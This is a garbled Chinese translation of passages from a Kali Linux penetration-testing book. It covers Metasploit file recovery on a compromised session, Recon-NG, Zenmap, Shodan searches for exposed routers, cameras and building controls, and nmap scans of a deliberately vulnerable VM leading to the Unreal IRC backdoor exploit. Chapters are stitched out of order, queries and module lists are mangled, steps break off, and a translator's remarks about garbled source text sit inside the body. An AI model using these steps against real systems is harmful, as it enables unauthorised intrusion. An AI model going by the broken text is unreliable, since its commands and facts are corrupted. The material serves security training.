

## 使用模块 (Using the Module)

该模块要求你对检查的目标有一个打开的会话。一旦成功建立远程会话，只需输入“`background`”临时退出会话回到 msf 提示符，并按如下所示使用模块：

```
msf > use:windows/gather/forensics/recovery_files

msf post(recovery_files) > show options

Module options (post/windows/gather/forensics/recovery_files):

Name | Current Setting | Required | Description |

|--- | :--- | :--- | :--- |

| DRIVE | C: | yes | 你想要从中恢复文件的驱动器。 |

| FILES | no | | 以名称逗号分隔的方式指定要恢复的文件的 ID 或扩展名。留空将列出删除的文件。 |

| SESSION | yes | | 运行此模块的会话。 |

| TIMEOUT | 3600 | | 搜索超时。如果为 @，模块将遍历整个 MFT。 |

msf post(recovery_files) > set DRIVE E:

DRIVE => E:

msf post(recovery_files) > set SESSION 1

SESSION => 1

msf post(recovery_files) >
```

如截屏所示，有几个设置需要配置。

如果你只想查看那里有什么文件，你只需要像上面一样设置“Drive”和“Session”设置。

然后直接运行利用程序：

```
msf post(recovery_files) > run

[*] System Info - OS: Windows 7 (Build 7601, Service Pack 1)., Drive: E:

[*] MFT is made up of 1 datums

[*] Searching deleted files in data run 1 ...

[*] Name: #G069X5.txt ID: 10737786688

[*] Name: #G0CHY7.txt ID: 10737786688
```
*(注：此处示例中 ID 似乎有重复或原文如此，已保留翻译)*

由于你提供的原文似乎有些错乱，这里显示了基础的设置。

由于你提供的原始文本后半部分存在大量重复和乱码的字符，我已根据逻辑进行了结构性翻译。

最后，我们学习了如何使用名为“`Recovery_Files`”的特殊 Meterpreter 模块从远程系统恢复被删除的文件。

一旦我们通过 Meterpreter shell 获取机器的远程访问，就可以与目标系统进行交互、对其进行操纵，甚至从从中获取视频。

但我们还可以使用 Meterpreter 绕过 Windows UAC 保护，并自动化提取用户密码哈值甚至明文密码。我们将在接下来的章节中讨论所有这些功能。

# 第3部分 - 信息收集与映射

# 第5章 – 侦察工具

## 资源

- Recon-NG Wiki 页面 - https://bitbucket.org/LaNMaSteR53/recon-ng/wiki/Home

### 简介

Kali Linux 中有多种工具可以辅助进行信息收集和侦察。当黑客攻击目标时，他们执行的正常阶段之一就是信息收集。他们想要尽可能了解关于你的网络（他们的目标）的信息，以便让工作更轻松。

Maltego 是一个非常流行的工具，在安全书籍和培训研讨会上会有很多介绍。由于它已经有了大量的内容，我想我们可以看看 Kali 中包含的一些其他工具。

在本章中，我们将查看较新的工具之一 Recon-NG 以及 Kali 自带的几个工具。

## Recon-NG

Recon-NG 框架是一个强大的工具，允许你执行自动化信息收集和网络侦察。把它想象成用于信息收集的 Metasploit。

Recon-NG 自动化了渗透测试初始过程中采取许多步骤。它具有许多功能，允许你收集用于社会工程攻击的用户信息，以及用于网络映射的网络信息等更多内容。

你可以自动访问许多网站以收集关于你目标的被动信息，甚至主动探测目标本身获取数据。

任何熟悉 Metasploit 的人都会感到如归家，因为它的界面设计得具有相同的视觉和感受。命令的使用和功能非常相似。基本上，你可以使用 Recon-NG 收集目标信息，然后用 Metasploit 进行进行攻击。

## 使用 Recon-NG

要启动 recon-ng，只需打开终端提示符并输入“`recon-ng`”：

```bash
root@kali:~# recon-ng

[recon-ng v1.41 Copyright (C) 2013, Tim Tomes (@LaNMaSteR53)]

[6] Recon modules

[7] Discovery modules

[4] Reporting modules

[1] Experimental modules

recon-ng > █
```

输入“`help`”可以列出命令列表：

```bash
recon-ng > help

Commands (type [help?]| <topic>):

back        退出当前提示符级别

banner      显示横幅

exit        退出当前提示符级别

help        显示此菜单

info        显示模块信息

keys        管理框架 API 密钥

load        加载选定的模块

query       查询数据库

record      将命令记录到资源文件

reload      重新加载所有模块

resource    从资源文件执行命令

run         不可用

search      搜索可用模块

set         设置全局选项

shell       执行 shell 命令

show        显示各种框架项

use         加载选定的模块
```

现在，像 Metasploit 一样，你可以输入“`show modules`”来显示可用模块列表：

```bash
recon-ng > show modules
```
Discovery
dis/exploit/http/dnn_fcklinkgallery
dis/exploit/http/generic_restaurantmenu
dis/exploit/http/webwiz_rte
dis/info_disclosure/cache_snoop
dis/info_disclosure/http/backup_finder
dis/info_disclosure/http/google_ads
dis/info_disclosure/http/interesting_files
```

```
Experimental
------
experimental/rce
```


```
Recon
recon/contacts/enum/http/web/dev_diver
recon/contacts/enum/http/web/namechk
recon/contacts/enum/http/web/pwdlist
recon/contacts/enum/http/should_change_password
recon/contacts/gather/api/jsigsaw/point_usage
```

正在扫描：`172.168.0.1/24` 屏幕视图：唯一主机

捕获 4 个 ARP 请求数据包，来自 3 个主机。总大小：240

| IP | MAC 地址 | 计数 | 长度 | MAC 厂商 |
| :--- | :--- | :--- | :--- | :--- |
| 192.168.198.2 | 00:50:56:fc:ac:5e | 02 | 120 | VMware, Inc. |
| 192.168.198.1 | 00:50:56:c0:00:08 | 01 | 060 | VMware, Inc. |
| 192.168.198.254 | 00:50:56:e6:77:37 | 01 | 060 | VMware, Inc. |

它也可以运行在隐身“被动”模式，在该模式下它不发送任何数据，仅进行嗅探。

# Zenmap

Zenmap 基本上是流行的 `nmap` 命令的图形化版本。如果你不熟悉 `nmap`，那么 Zenmap 是一个极佳的起点。

与之前的命令一样，Zenmap 可以从菜单或命令行启动。

一旦启动，你将看到以下屏幕：



只需填写目标 IP 地址，并从“Profile（配置）”下拉框中选择你想要执行的扫描类型。Zenmap 将在命令框中显示结果对应的 `nmap` 参数开关。然后点击“Scan（扫描）”按钮运行该命令：



如上所示，`nmap` 命令状态显示在 Nmap 输出窗口中。

通过点击额外的标签可以查看其他信息，例如“Ports/ Hosts（端口/主机）”标签：

| Nmap 输出 | 端口 / 主机 | 拓扑 | 主机详情 | 扫描 |
| :--- | :--- | :--- | :--- | :--- |
| 端口 | 协议 | 状态 | 服务 | 版本 |
| 53 | tcp | open | tcpwrapped | |

或者“Host Details（主机详情）”窗口：



## 结论

在本章中，我们查看了多功能工具 Recon-NG。我们看到了它是如何设计以模仿 Metasploit 的，使得熟悉它的用户可以很快上手 Recon-NG。

我们还涵盖了其他几个用于主机识别、侦察和信息收集的工具。

# 第 6 章 - Shodan

## 资源

- Shodan 网站 - http://www.shodanhq.com/
- Google Dorks 数据库 - http://www.exploit-db.com/google-dorks/

### 介绍

Shodan 是网络上最酷的网站之一。它被称为“黑客的 Google”、“黑暗 Google”，并多次被形容为“恐怖”，它是一个针对计算机的搜索引擎。

Shodan 允许你通过搜索关键词来查找网络上的计算机。例如，你可以搜索加拿大境内所有的 Microsoft IIS 7.0 服务器，以及非洲地区所有的 Linux 系统。

如果你熟悉“Google Dorks”，Shodan 与之类似，但它是搜索互联网范围内的系统时，比后者要简单得多的方法。

有效使用 Shodan 的技巧在于知道正确的关键词。通常它们是制造商名称或设备型号数字，但有时是你完全想不到会搜索的非常冷门的嵌入式服务器名称。

一旦你知道了这些魔法密钥，几秒钟内就可以全球搜索这些设备。或者通过使用 `filter`（过滤器）命令，你可以将搜索缩小到特定的设备和区域。

安全测试人员可以使用 Shodan 快速评估网络中哪些系统是公开的。它还可以帮助他们发现已添加到网络中的可能的未经授权设备。

在本节中，我们将简要讨论为什么使用 Shodan 扫描网络是一个好主意。然后我们将查看如何在 Shodanhq.com 界面上进行这些搜索，最后使用 Kali Linux。

## 为什么要用 Shodan 扫描网络？

有很多表面上不应该在互联网上公开的重要系统。通过简单的关键词搜索就能轻松找到所有内容——从开放的、过时的且不安全的系统、路由器、网络存储、手机系统、摄像头、建筑控制，甚至是安全系统。 移动指针到端口获取更多信息。但这并不是全部。开放的网络打印机和嵌入式设备还可以提供关于 SNMP 和网络基础设施的信息，甚至是用户账户和密码！ 遗憾的是，在高科技世界里，计算机系统并不是在线可以找到的唯一。你还可以找到完全开放且未安全的工业 HVAC（暖空调）和建筑控制，甚至是远程控制的门： 通常，在线设备带有出厂默认密码（易于破解）。用户需要做的只是将其开启或分配密码。

使用 Shodan 搜索系统已变得非常流行。如果你听过“Urban Explorers（城市探索者）”——那些寻找废弃建筑乐趣的人，请想想“Cyber Explorers（网络探索者）”——那些探索全球安全系统的人。一旦在 Shodan 上发现了有趣的系统，搜索结果通常会在朋友之间分享或发布在互联网上。这就是为什么检查你从网络可见或可访问的系统很重要。

## Shodan 网站

要使用 Shodan，只需将浏览器指向 `Shodanhq.com`：

然后你需要做的只是输入关键词并像使用任何搜索引擎一样点击搜索。例如，如果我们想搜索 Cisco 路由器，只需输入“Cisco”并点击“search”：

### SHodan

| 服务 | 计数 |
| :--- | :--- |
| SSH | 670,656 |
| HTTP | 661,104 |
| HTTPS | 296,452 |
| UPnP | 204,143 |
| SIP | 121,104 |

| 国家 | 计数 |
| :--- | :--- |
| 美国 | 687,850 |
| 俄罗斯联邦 | 96,930 |
| 中国 | 79,444 |
| 意大利 | 64,352 |
| 英国 | 60,467 |

| 组织 | 计数 |
| :--- | :--- |
| Cisco Communications | 214,484 |
| Telecom Internet | 31,259 |
| United S.A. de C.V. | 29,288 |
| Telecom Spain | 25,893 |
| Turk Telekom | 23,802 |

Shodan 返回了全球约两百万 Cisco 路由器的链接。你可以点击任何 IP 地址直接访问找到设备。

在屏幕左侧，Shodan 还会告诉你总设备中有多少来自特定国家或位置。你可以点击其中任何一个来缩小搜索范围，或者直接在搜索中使用关键词过滤器来微调结果。

### 过滤器指南

使用 `Filter`（过滤器）命令，你可以快速将搜索缩小到特定内容。例如，假设你是一名微软员工，需要找到美国所有运行 IIS 8.0 属于微软网域的 IIS 服务器？

你可以输入类似下行的内容：

```
Shodan Exploit Scanhub Anniversary Promotion
SHODAN is/8.0 hostname.microsoft.com country:US Search
```

这可以快速方便地筛选现有的数百万台服务器，并返回匹配查询的项。

这是一个示例搜索结果：

### 微软公司

Microsoft Corp

2. 国家详情

3. 主机名 www-co1test.microsoft.com

4. 正文

```
HTTP/1.0 200 OK
Cache-Control: no-cache
Content-Type: text/html
Last-Modified: Mon, 16 Mar 2009 20:55:26 GMT
Accept-Ranges: *
ETag: "67991f6af6c691.0"
Server: Microsoft-IIS/8.0
VTag: -21474836480000000
P: ID2 DOR COR CUM CUS IV/DA PRD TAL
X-Forwarded-By: ASP.NET
Date: Thu, 18 Aug 2013 22:43:58 GMT
Content-Length: 1020
```

- 1. 服务器标题信息。你可以通过将信息放入 `title` 命令来搜索具有相同标题文本的其他服务器。
- 2. 指定服务器的国家位置，同样可以通过使用 `country` 命令进行搜索。
- 3. 主机名搜索命令可通过域名搜索服务器。
- 4. 正文区域。输入 Shodan 的任何无过滤器的文本都将被假设为正文搜索，并查找在正文区域具有请求信息的服务器。

`net:192.168.1.10`

`net:192.168.1.0/24`

### TITLE 命令

你也可以使用 `Title` 命令来搜索项目：

`title: "Server Room"`

`Title`（标题）可能是最常用的搜索参数之一。你可以通过扫描整个互联网或你的整个域名来查找标题关键词。

### KEYWORD 搜索（关键词搜索）

搜索 Shodan 最流行的方法可能是使用正文关键词搜索。如果你知道目标服务器系统的类型、嵌入式服务器的名称，或者只想搜索“200 OK” 网页，那么正文关键词搜索就是你的用武。

例如，如果你想找到所有运行 Apache 服务器版本 2.2.8 的服务器，并且只想查找开放的站点，或者在扫描时没有返回错误的站点（即“200 OK” 站点），请使用以下关键词：

```
apache/2.2.8 200 ok
```

或者，你可能想跳过任何 401 未授权的页面或 302 重定向页面？只需使用减号和 HTML 错误代码即可：

```
apache/2.2.8 -401 -302
```

### 组合搜索

最有效的 Shodan 搜索是通过组合搜索词完成的。通过几个关键词，你就可以搜索位于波士顿地区的所有运行 IIS/7.0 的微软服务器。

```
IIS/7.0 hostname:YourCompany.com:Boston
```

或者，你可以对你的域名进行快速安全扫描，查找需要更新的旧系统。例如，位于你法国域名范围内任何地方的任何 IIS/5.0 系统。

```
IIS/5.0 hostname:YourCompany.com country:FR
```

标题搜索的效果也非常好。许多摄像头在标题信息中使用了“camera”（摄像头）一词。如果你的网络不允许使用摄像头，你可以快速检查这一点。

```
Title:camera hostname:YourCompany.com
```

最后，使用地理坐标（Geo coordinates）进行搜索开启了一些有趣的功能，特别是对于 OSINT（开源情报收集）和政府实体而言。如果你正在创建一个网络地图，并想搜索位于叙利亚大马士附近的 Linux 服务器：

```
geo:33.536.3 os:Linux
```

由于某些原因，并不是每个系统都能正确标记其城市/国家，而地理坐标有助于识别其他无法显示的额外系统。你可以使用的其他搜索术语包括：

- **Port（端口）**：按端口号搜索。
- **OS**：按操作系统搜索。
- **After or Before（之后或之前）**：搜索服务器日期。

### 使用 Metasploit 进行 Shodan 搜索

Shodan 搜索功能已添加到 Metasploit 框架中。你只需要注册一个免费的 Shodan 用户账户并从他们的网站获取 API 密钥即可。使用 API 密钥允许你自动化 Shodan 搜索。

要使用 Metasploit 查找系统，你只需像使用其他漏洞一样使用它：

1. 在 `Shodanhq.com` 上创建一个免费账户。
2. 获取 API key - http://www.shodanhq.com/api_doc
3. 启动 Postgresql（在终端中输入“`service postgresql start`”）。
4. 启动 Metasploit 服务（“`service metasploit start`”）。
5. 启动 Metasploit（“`msfconsole`”）或使用前十大菜单（Top Ten Menu）。
6. 输入，“`use auxiliary/gather/shodan_search`”：

```
msf > use auxiliary/gather/shodan_search
msf auxiliary(shodan search) > |
```

7. 现在，输入“`show options`”查看我们需要使用哪些选项：



8. 输入“`set Shodan_APIKey <API Key Number>`”并填入你的 API 密钥数字。
9. 现在用你想搜索的关键词设置 `Query`（查询）字段：
10. 输入运行。
11. 几秒钟后你将看到：

```
msf auxiliary(shodan search) > run
[*] Scanning results (5 found)
[*] 192.168.1.10: Apache/2.2.8
[*] 192.168.1.11: Apache/2.2.8
[*] 192.168.1.12: Apache/2.2.8
[*] 192.168.1.13: Apache/2.2.8
[*] 192.168.1.14: Apache/2.2.8
```

12. 然后你将看到实际：


## 结论

在本节中，我们学习了 Shodan 搜索引擎。我们学习了如何使用关键词和过滤器搜索 Shodan，最后学习了如何在 Metasploit 内部搜索 Shodan。

对于公司来说，了解他们公开的系统至关重要。公司规模越大，存在过时或不安全的系统就越常见。

我强烈建议...

# 第 3 部分 - 攻击主机

## 引言

Metasitable 是一个故意带有漏洞的 Linux 发行版。它被设计用于安全测试和渗透测试。Metasitable 充满了已知漏洞和配置错误。

# 安装和使用 Metasitable

Metasitable 可以作为虚拟机提供。一旦 Metasitable 启动，你会看到登录界面：

```
root@metasitable:~
Warning: 不要将此 VM 暴露到不可信网络！
Contact: msfdev@metasitable.com
Login with msfadmin:msfadmin
metasitable: ~
```

你不会相信有多少安全专业人员询问 Metasitable 的默认凭据。而且他们把它放在登录界面！登录过程非常平淡。你最终得到一个基于文本的提示符：

```
msfadmin@metasitable:~$
```

但我们不是为了在这里使用系统；目的是远程进入系统。

## 扫描目标

许多安全测试人员的第一步之一是执行“`nmap`”扫描，尝试确定哪些端口是开放的，最好能安装了哪些服务。如果我们能确定开放端口和服务版本，我们可能就可以利用服务中的漏洞并控制机器。

让我们从 Kali 盒子查看 Metasitable。

要做的第一工作是运行 `nmap` 扫描并查看了了服务。

- 在你的 Kali 系统上打开终端窗口并输入：

`nmap -sS -Pn <metasitable IP 地址>`

填入你的 Metasitable 机器的 IP 地址，在我们的案例中是 `192.168.198.145`。如果你不知道 Metasitable 的 IP 地址，你始终可以通过输入类似内容来扫描地址范围：`nmap -sS -Pn 192.168.198.1-150`

“-sS”开关告诉 `nmap` 执行隐身扫描。“-Pn”开关告诉 `nmap` 不要运行 ping 扫描来查看服务已在线。


```bash
root@kali:~# nmap -sS -Pn 192.168.198.145
Starting Nmap 6.40 ( http://nmap.org ) at 2013-10-23 15:02 EDT
Nmap scan report for 192.168.198.145
Host is up (0.00030s latency).
Not shown: 977 closed ports
PORT STATE SERVICE
21/tcp   open ftp
22/tcp   open ssh
23/tcp   open telnet
25/tcp   open smtp
53/tcp   open domain
80/tcp   open http
111/tcp  open rpcbind
139/tcp  open netblos-ssn
445/tcp  open microsoft-ds
512/tcp  open rexec
513/tcp  open login
514/tcp  open shell
1099/tcp open rmiregistry
1524/tcp open ingresslock
2049/tcp open nfs
2121/tcp open ccproxy-ftp
3306/tcp open mysql
5432/tcp open postgresql
5900/tcp open vnc
6001/tcp open x11
6667/tcp open irc
8000/tcp open ajp13
8180/tcp open unknown
MAC Address: 00:0c:29:07:64:4E (VMware)

Nmap done: 1 IP address [1 host up] scanned in 0.14 seconds
```

那里有很多开放的端口！

好了，我们确实有很多可能的突破口；让我们看看能否找到在这些端口上运行的服务。让我们再次尝试运行 `nmap` 命令，但这次添加 `-A` 参数，它将执行操作系统检测并尝试确定服务版本：

```bash
nmap -sS -Pn -A 192.168.198.145
```

Nmap 将运行一段时间，因为它正在尝试检测在这些端口上运行的实际服务。几分钟后，你会看到一个类似这样的屏幕：



对于每个端口，我们都能看到端口号、服务类型，甚至尝试获取服务的软件版本。

在上面的图片中，我们看到几个普通端口是开放的。在高端口也运行着许多服务；其中一个特别的是 Unreal 网络中聊天 `IRC` 程序：



通常在教程中，他们会先涵盖主要端口的服务。但我建议查看位于高端口的服务。相比之下，常见的服务更有可能被打了补丁或更新，还是某个安装过一次且可能被遗忘的次要服务？

所以，让我们看看能关于这个 Unreal IRC 服务发现些什么。

在图片中，我们可以看到软件版本，在这里是 *Unreal IRC 3.2.8.1*。我们的下一步是针对该软件版本进行漏洞搜索。只需在 Google 中搜索“unreal3.2.8.1 exploits”就能搞定。

但既然我们可以用 Metasploit 进行搜索，为什么还要用 Google 呢？

### 利用 Unreal IRC 服务

让我们运行 Metasploit：

```bash
root@kali:~# msfconsole
```

现在使用搜索命令并粘贴服务名称和程序版本：

```bash
msf > search Unreal 3.2.8.1
```

运行此搜索返回了：

```bash
exploit/unix/irc/unreal_irc_3281_backdoor   2010-06-12      excellent Unreal IRCD 3.2.8.1 Backdoor Command Execution
```

一个可靠性评级为“优秀（excellent）”的 Unreal 3.2.8.1 后门！

这是一个极好的消息，因为漏洞利用程序是根据成功概率和稳定性进行排序的。

如果你还记得我们对 Metasploit 的介绍，利用漏洞有几个步骤：

- 选择利用程序 `Picking an Exploit`
- 设置利用选项 `Setting Exploit Options`
- 选择有效负载 `Picking a Payload`
- 设置有效负载选项 `Setting Payload Options`
- 执行利用程序 `Running the Exploit`
- 连接到远程系统 `Connecting to the Remote System`

让我们逐步完成这个过程。

### 选择利用程序

如果我们使用 `info` 命令，我们可以获取更多关于我们可能的利用程序的信息。

```bash
msf > exploit/unix/irc/unreal_irc_3281_backdoor
```

执行 `exploit/unix/irc/unreal_irc_3281_backdoor` 后会得到以下信息：

| Name | Date | Description |
| :--- | :--- | :--- |
| exploit/unix/irc/unreal_irc_3281_backdoor | 2010-06-12 | excellent Unreal IRCD 3.2.8.1 Backdoor Command Execution |

在本教程中，我们将使用 Kali 系统作为测试平台，并将故意留的 Metasploitable 2 虚拟机作为目标系统。

### 使用扫描器

要找到可用的扫描器，只需在 Kali 命令行提示符中运行 `msfconsole`。在 Metasploit 启动后，在提示提示符处输入 `search scanner`：

```
msf > search scanner
Matching Modules
=================
Name                               Rank    Description
auxiliary/admin/smb_check_dir_file    normal  SMB Scanner Check File/Directory Utility
auxiliary/bnat/nat_scan               normal  BNAT Scanner
auxiliary/gather/citrix_published_applications  normal  Citrix Metaframe ICA Published Applications
auxiliary/gather/enum_nz_                normal  DNS Record Scanner and Enumerator
auxiliary/gather/natpmp_external_address  normal  NAT-PMP External Address Scanner
auxiliary/pro/nexpose                    normal  NAT-PMP External Address Scanner
auxiliary/pro/webscan                   normal  PRO: Nexpose Scanner Integration
```

向下阅读庞大的列表以查看可用内容。

在本教程中，我们将注意力缩小在发现的常用端口上。作为回顾，这里是上一章节执行的 `nmap` 扫描结果：

```
PORT        STATE
21/tcp      open ftp
22/tcp      open ssh
23/tcp      open telnet
25/tcp      open smtp
53/tcp      open domain
80/tcp      open http
```

让我们关注端口 `22`，它就是安全外壳 `ssh`。

继续在 Metasploit 中搜索 `ssh` 扫描器：



注意这里有几个可用的。我们现在只是寻找版本信息，因此我们将使用 `auxiliary/scanner/ssh/ssh_version` 模块。

- 输入 `use auxiliary/scanner/ssh/ssh_version`
- 然后输入 `show options` 查看你可以可以使用哪些选项。
- 在这种情况下，我们只需要做的的是 `set RHOSTS <IP>`，即远程主机，这是我们的目标。
- 然后只需输入 `exploit` 运行。

